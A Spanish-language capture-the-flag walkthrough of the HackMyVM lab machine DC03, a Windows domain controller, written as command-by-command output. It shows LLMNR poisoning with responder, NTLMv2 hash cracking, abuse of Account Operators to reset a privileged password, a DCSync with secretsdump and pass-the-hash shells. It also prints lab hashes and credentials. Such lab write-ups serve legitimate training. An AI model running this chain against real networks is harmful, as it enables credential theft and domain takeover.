



+++
author = "Andrés Del Cerro"
title = "HackMyVM: DC03 Writeup | Medium"
date = "2024-10-18"
description = ""
tags = [
    "HackMyVM",
    "DC03",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "NBT-NS Enumeration",
    "LDAP Enumeration",
    "RPC Enumeration",
    "Abusing Kerberos",
    "LLMNR Spoofing",
    "SMB Relay",
    "NTLMv2 Hash Cracking",
    "Hash Cracking",
    "Cracking",
    "Abusing Account Operators",
    "DCSync",
    "Pass The Hash"
]

+++

# Hack The Box: DC03 Writeup

Welcome to my detailed writeup of the medium difficulty machine **"DC03"** on HackMyVM. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 192.168.182.7 --ulimit 5000 -g
192.168.182.7 -> [53,88,135,139,389,445,464,593,3268,5985,9389,49664,49668,49670,49683]
```

```console
$ nmap -p53,88,135,139,389,445,464,593,3268,5985,9389,49664,49668,49670,49683 -sCV 192.168.182.7 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 17:14 CEST
Stats: 0:01:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.95% done; ETC: 17:16 (0:00:00 remaining)
Nmap scan report for 192.168.182.7
Host is up (0.00022s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-16 22:14:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:31:A7:F7 (Oracle VirtualBox virtual NIC)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-16T22:15:28
|_  start_date: N/A
|_clock-skew: 6h59m57s
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:31:a7:f7 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.15 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.182.7 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 17:16 CEST
Nmap scan report for 192.168.182.7
Host is up (0.00057s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
137/udp open  netbios-ns
389/udp open  ldap
MAC Address: 08:00:27:31:A7:F7 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

Del escaneo inicial encontramos el dominio `soupedecode.local`, lo añadimos al `/etc/hosts`

# SMB Enumeration

Ni con `smbmap` ni con `smbclient` podemos listar los recursos compartidos a nivel de red del DC.
```console
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc03/scan]
└──╼ [★]$ smbmap -H 192.168.182.7 -u 'null'
[!] Authentication error on 192.168.182.7
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc03/scan]
└──╼ [★]$ smbmap -H 192.168.182.7 -u ''
[!] Authentication error on 192.168.182.7
```

```console
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc03/scan]
└──╼ [★]$ smbclient -L \\192.168.182.7 -U '' -N
session setup failed: NT_STATUS_ACCESS_DENIED
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc03/scan]
└──╼ [★]$ smbclient -L \\192.168.182.7 -U 'null' -N
session setup failed: NT_STATUS_LOGON_FAILURE
```

Necesitaremos credenciales para ello.

Todavía no tengo el NS, como está NetBIOS expuesto, podemos con `nbtscan` fácilmente recuperar los NS.
```console
$ nbtscan 192.168.182.7
Doing NBT name scan for addresses from 192.168.182.7

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.182.7    DC01             <server>  <unknown>        08:00:27:31:a7:f7
```

Añadimos `DC01.soupedecode.local` al `/etc/hosts`
# LDAP Enumeration

Parece ser que necesito autenticarme para poder hacer consultas LDAP.
```console
$ ldapsearch -x -H ldap://192.168.182.7 -D '' -w '' -b "DC=SOUPEDECODE,DC=LOCAL"
# extended LDIF
#
# LDAPv3
# base <DC=SOUPEDECODE,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A58, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1
```

Sin embargo, podemos acceder al servidor LDAP como un usuario anónimo utilizando un nombre de dominio arbitrario, por alguna razón, esto funciona.
```console
$ ldapsearch -H ldap://DC01.soupedecode.local/ -x -s base -b '' "(objectClass=*)" "*" +
"*" +                                                                                     
# extended LDIF                                                                           
#                                                                                         
# LDAPv3                                                                                  
# base <> with scope baseObject                                                           
# filter: (objectClass=*)                                                                 
# requesting: * +                                                                         
#                                                                                         
                                                                                          
#                                                                                         
dn:                                                                                       
domainFunctionality: 7                                                                    
forestFunctionality: 7                                                                    
domainControllerFunctionality: 7                                                          
rootDomainNamingContext: DC=SOUPEDECODE,DC=LOCAL                                          
ldapServiceName: SOUPEDECODE.LOCAL:dc01$@SOUPEDECODE.LOCAL
...
```

No encontramos nada interesante.

# RPC Enumeration
Tampoco puedo enumerar nada a través de RPC ya que necesito credenciales válidas.
```console
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc03/content]
└──╼ [★]$ rpcclient -N -U "" 192.168.182.7
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc03/content]
└──╼ [★]$ rpcclient -N -U "null" 192.168.182.7
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```


# Kerberos User Enumeration
En este punto, tampoco podía hacer mucho, así que decidí a intentar hacer fuerza bruta a usuarios usando el módulo `userenum` de `kerbrute` y encontré un usuario `charlie`
```console
$ /opt/kerbrute userenum -d soupedecode.local --dc 192.168.182.7 /opt/SecLists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/16/24 - Ronnie Flathers @ropnop

2024/10/16 17:38:54 >  Using KDC(s):
2024/10/16 17:38:54 >   192.168.182.7:88

2024/10/16 17:38:54 >  [+] VALID USERNAME:       charlie@soupedecode.local
2024/10/16 17:38:55 >  [+] VALID USERNAME:       Charlie@soupedecode.local
2024/10/16 17:38:55 >  [+] VALID USERNAME:       administrator@soupedecode.local
2024/10/16 17:38:59 >  [+] VALID USERNAME:       Administrator@soupedecode.local
2024/10/16 17:38:59 >  [+] VALID USERNAME:       CHARLIE@soupedecode.local
```

Podemos comprobar si `charlie` tiene el atributo `DONT_REQUIRE_PREAUTH` pero no hay suerte.
```console
$ GetNPUsers.py -no-pass -dc-ip 192.168.182.7 -usersfile users.txt soupedecode.local/
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[-] User charlie doesn't have UF_DONT_REQUIRE_PREAUTH set
```

En este punto tampoco puedo hacer mucho con este usuario que no sea fuerza bruta para intentar conseguir credenciales.

Pero tampoco consigo las credenciales de `charlie` mediante un ataque por diccionario.
```console
$ /opt/kerbrute bruteuser --dc 192.168.182.7 -d soupedecode.local /usr/share/wordlists/rockyou.txt "charlie"
```

# LLMNR Spoofing
Con `enum4linux-ng` podemos hacer un reconocimiento general por si nos hemos perdido algo y vemos que no se puede hacer un SMB Relay debido a que se requiere la firma por SMB.

```console
$ enum4linux-ng -A 192.168.182.7
....
 ==========================================                                               
|    SMB Dialect Check on 192.168.182.7    |                                              
 ==========================================                                               
[*] Trying on 445/tcp                                                                     
[+] Supported dialects and settings:                                                      
Supported dialects:                                                                       
  SMB 1.0: false                                                                          
  SMB 2.02: true                                                                          
  SMB 2.1: true                                                                           
  SMB 3.0: true                                                                           
  SMB 3.1.1: true                                                                         
Preferred dialect: SMB 3.0                                                                
SMB1 only: false                                                                          
SMB signing required: true      
....
```

Leyendo [sobre ataques de tipo spoofing a LLMNR, NBT-NS en HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks) me di cuenta de una cosa.

> Microsoft and other operating systems use LLMNR and NBT-NS for local name resolution when DNS fails. Similarly, Apple and Linux systems use mDNS.

Y en mi caso, al intentar enumerar con `dig` el servidor DNS vemos que el servidor no nos responde.

```console
$ dig NS soupedecode.local @192.168.182.7
;; communications error to 192.168.182.7#53: timed out

; <<>> DiG 9.18.24-1-Debian <<>> NS soupedecode.local @192.168.182.7
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 25112
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;soupedecode.local.             IN      NS

;; Query time: 4703 msec
;; SERVER: 192.168.182.7#53(192.168.182.7) (UDP)
;; WHEN: Wed Oct 16 17:55:56 CEST 2024
;; MSG SIZE  rcvd: 46
```

Y lo mismo con `dnsenum`.

Por lo cual significa que se están haciendo peticiones `nbt-ns` por detrás, ya que recordemos que hemos visto que el puerto 137/UDP estaba abierto, correspondiente a `netbios-ns`



Por lo cual podemos hacer un LLMNR Spoofing para hacer un SMB Relay y capturar el hash NTLMv2 de algún usuario, todo esto con `responder`

```console
$ sudo responder -I ens33
[*] [MDNS] Poisoned answer sent to 192.168.182.7   for name DC01.local
[*] [MDNS] Poisoned answer sent to fe80::a4d4:79a7:3d89:b16c for name DC01.local
[*] [MDNS] Poisoned answer sent to 192.168.182.7   for name DC01.local
[*] [MDNS] Poisoned answer sent to fe80::a4d4:79a7:3d89:b16c for name DC01.local
[*] [NBT-NS] Poisoned answer sent to 192.168.182.7 for name FILESERVER (service: File Server)
[*] [LLMNR]  Poisoned answer sent to fe80::a4d4:79a7:3d89:b16c for name FileServer
[*] [MDNS] Poisoned answer sent to 192.168.182.7   for name FileServer.local
[*] [MDNS] Poisoned answer sent to fe80::a4d4:79a7:3d89:b16c for name FileServer.local
[*] [MDNS] Poisoned answer sent to 192.168.182.7   for name FileServer.local
[*] [LLMNR]  Poisoned answer sent to 192.168.182.7 for name FileServer
[*] [MDNS] Poisoned answer sent to fe80::a4d4:79a7:3d89:b16c for name FileServer.local
[*] [LLMNR]  Poisoned answer sent to fe80::a4d4:79a7:3d89:b16c for name FileServer
[*] [LLMNR]  Poisoned answer sent to 192.168.182.7 for name FileServer
[SMB] NTLMv2-SSP Client   : fe80::a4d4:79a7:3d89:b16c
[SMB] NTLMv2-SSP Username : soupedecode\xkate578
[SMB] NTLMv2-SSP Hash     : xkate578::soupedecode:5df2627e833a1b61:99D49EF167578E4AB8360B7BBE96BB8E:0101000000000000000B1340F51FDB019C516671C2F33C4D0000000002000800570037004C00570001001E00570049004E002D0053005A00330053004500550055003000330052004E0004003400570049004E002D0053005A00330053004500550055003000330052004E002E00570037004C0057002E004C004F00430041004C0003001400570037004C0057002E004C004F00430041004C0005001400570037004C0057002E004C004F00430041004C0007000800000B1340F51FDB010600040002000000080030003000000000000000000000000040000085E50685342F68FA0E763A9570F2EBD70313687CDA385C4F4D1854AE610D91730A0010000000000000000000000000000000000009001E0063006900660073002F00460069006C0065005300650072007600650072000000000000000000
```

Capturamos un hash para el usuario `xkate578`, ahora con `john` podemos intentar crackearlo.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jesuschrist      (xkate578)     
1g 0:00:00:00 DONE (2024-10-16 18:02) 16.66g/s 34133p/s 34133c/s 34133C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Y tenemos credenciales.
`xkate578:jesuschrist`

Podemos comprobarlas con `netexec` y vemos que son credenciales válidas.

```console
$ nxc smb 192.168.182.7 -u xkate578 -p jesuschrist
SMB         192.168.182.7   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.7   445    DC01             [+] SOUPEDECODE.LOCAL\xkate578:jesuschrist
```

Lamentablemente este usuario no pertenece al grupo `Remote Management Users` por lo cual no podemos conseguir una consola interactiva por ahora.
```console
$ nxc winrm 192.168.182.7 -u xkate578 -p jesuschrist
WINRM       192.168.182.7   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SOUPEDECODE.LOCAL)
WINRM       192.168.182.7   5985   DC01             [-] SOUPEDECODE.LOCAL\xkate578:jesuschrist
```

# SMB Enumerating (authenticated)

Ahora con `smbmap` vemos un recurso compartido a nivel de red llamado `share`
```console
$ smbmap -H 192.168.182.7 -u xkate578 -p jesuschrist
[+] IP: 192.168.182.7:445       Name: DC01.soupedecode.local                            
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        share                                                   READ, WRITE
        SYSVOL                                                  READ ONLY       Logon server share
```

Vemos que está la flag de usuario, la podemos descargar.
```console
$ smbclient \\\\192.168.182.7\\share -U 'xkate578%jesuschrist'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sat Oct 19 00:57:28 2024
  ..                                  D        0  Thu Aug  1 07:38:08 2024
  desktop.ini                       AHS      282  Thu Aug  1 07:38:08 2024
  user.txt                            A       70  Thu Aug  1 07:39:25 2024

                12942591 blocks of size 4096. 10925858 blocks available
smb: \> get user.txt
getting file \user.txt of size 70 as user.txt (5,3 KiloBytes/sec) (average 5,3 KiloBytes/sec)
```

Podemos leerla.
```console
$ cat user.txt
12f54a96f64443246...
```

# User Pivoting
Ahora que tenemos unas credenciales válidas, podemos enumerar el dominio de una forma mas cómoda, para ello vamos a utilizar `bloodhound-python`
```console
$ bloodhound-python -dc 192.168.182.7 -u xkate578 -p jesuschrist -c All -d soupedecode.local -ns 192.168.182.7 --dns-tcp
...
dns.resolver.LifetimeTimeout: The resolution lifetime expired after 3.105 seconds: Server 192.168.182.7 TCP port 53 answered The DNS operation timed out.
```

Vemos que nos da un error en la resolución del dominio, esto es normal porque el DNS está configurado para fallar para poder hacer el SMB Relay que hemos hecho antes, por lo cual vamos a usar `ldapdomaindump` para conseguir mas información del dominio.

```console
$ ldapdomaindump --no-grep --no-json -u "soupedecode.local\xkate578" -p jesuschris
t soupedecode.local                                                                       
[*] Connecting to host...                                                                 
[*] Binding to host                                                                       
[+] Bind OK                                                                               
[*] Starting domain dump                                                                  
[+] Domain dump finished
```

Para visualizar cómodamente estos archivos, podemos abrir un servidor HTTP con python por el puerto 8081.

```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora desde el navegador podemos acceder al `localhost:8081` y ya podemos visualizar los archivos que queramos.

Nuestro usuario pertenece a dos grupos, `Domain Users` y a un grupo mas interesante, `Account Operators` 


Este grupo es interesante porque puede crear cuentas y grupos que no sean administradores del dominio.

> The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups. Group members can log in locally to domain controllers.

Recomiendo leer [este artículo](https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation) ya que explica varias cosas interesantes, una de ellas es que a parte de crear podemos editar la mayoría de cuentas de usuarios pero no podemos gestionar las cuentas administradoras del dominio.

Pero nos podemos dar cuenta de una cosa, podríamos cambiar la contraseña de `fbeth103` en principio, porque no pertenece al grupo `Domain Admins, pertenece a un grupo llamado `Operators`.

Y si miramos un poco mejor..


Vemos que todos los usuarios del grupo `Operators` tiene los privilegios de `Domain Admins`, por lo cual podríamos convertirnos en administradores del dominio simplemente cambiando una contraseña.

Podríamos hacerlo a través de `rpcclient` pero por alguna razón me dice que permiso denegado.
```console
$ rpcclient -U 'soupedecode.local\xkate578%jesuschrist' 192.168.182.7
rpcclient $> setuserinfo fbeth103 23 Pointed123@
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
rpcclient $> setuserinfo2 fbeth103 23 Pointed123@
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
```

Sin embargo si que puedo cambiar la contraseña de otros usuarios.

```console
rpcclient $> setuserinfo2 cleo503 23 Pointed123@
rpcclient $> 
```

Y funciona, pero esto no nos interesa, nos interesa conseguir la cuenta de `fbeth103`
```console
$ nxc smb 192.168.182.7 -u cleo503 -p 'Pointed123@'
SMB         192.168.182.7   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.7   445    DC01             [+] SOUPEDECODE.LOCAL\cleo503:Pointed123@
```

Como esto no tenía ningún tipo de sentido, borre y creé la máquina otra vez, ahora la máquina víctima pasa a tener la dirección IP `192.168.87.3`.

```console
$ rpcclient -U 'soupedecode.local\xkate578%jesuschrist' 192.168.87.3
rpcclient $> setuserinfo fbeth103 23 Pointed123!
```

Ahora con `netexec` podemos comprobarlo y me reporta `Pwn3d!`

```console
$ nxc smb 192.168.87.3 -u fbeth103 -p Pointed123!
SMB         192.168.87.3    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.87.3    445    DC01             [+] SOUPEDECODE.LOCAL\fbeth103:Pointed123! (Pwn3d!)
```

Indirectamente somos administradores del dominio, pero al intentar utilizar `evil-winrm` o `psexec` no termina de realizar la conexión, así que vamos a hacer un DCSync para conseguir los hashes del usuario `Administrator` y hacer Pass The Hash para poder conseguir una consola interactiva.

Esto lo podemos hacer con `secretsdump.py`
```console
$ secretsdump.py -dc-ip 192.168.87.3 'soupedecode.local/fbeth103:Pointed123!@dc01.soupedecode.local'
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
........
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2176416a80e4f62804f101d3a55d6c93:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::
```

Nos interesa el hash del archivo `NTDS.DIT` ya que es donde se almacenan las credenciales en entornos de directorio activo, vemos el hash `2176416a80e4f62804f101d3a55d6c93`

Podemos comprobarlo con `netexec` y vemos que es válido.
```console
$ nxc smb 192.168.87.3 -u Administrator -H '2176416a80e4f62804f101d3a55d6c93'
SMB         192.168.87.3    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.87.3    445    DC01             [+] SOUPEDECODE.LOCAL\Administrator:2176416a80e4f62804f101d3a55d6c93 (Pwn3d!)
```

Ahora simplemente con `wmiexec` podemos conseguir una consola interactiva como `Administrator`, con `psexec` teóricamente también se puede pero por alguna razón no funciona, quizá tenga algo que ver el servicio DNS, y con `evil-winrm` también se puede.

**WMIEXEC**
```console
$ wmiexec.py -dc-ip 192.168.87.3 -no-pass -hashes ':2176416a80e4f62804f101d3a55d6c93' 'soupedecode.local/Administrator@dc01.soupedecode.local'
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
soupedecode\administrator
```

**EVIL-WINRM
```console
$ evil-winrm -i 192.168.87.3 -u Administrator -H 2176416a80e4f62804f101d3a55d6c93
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
```

Podemos leer la flag de `root`
```console
C:\Users\Administrator\Desktop>type root.txt
b8e59a7d4020792c...
```

¡Y ya estaría!

Happy Hacking! 🚀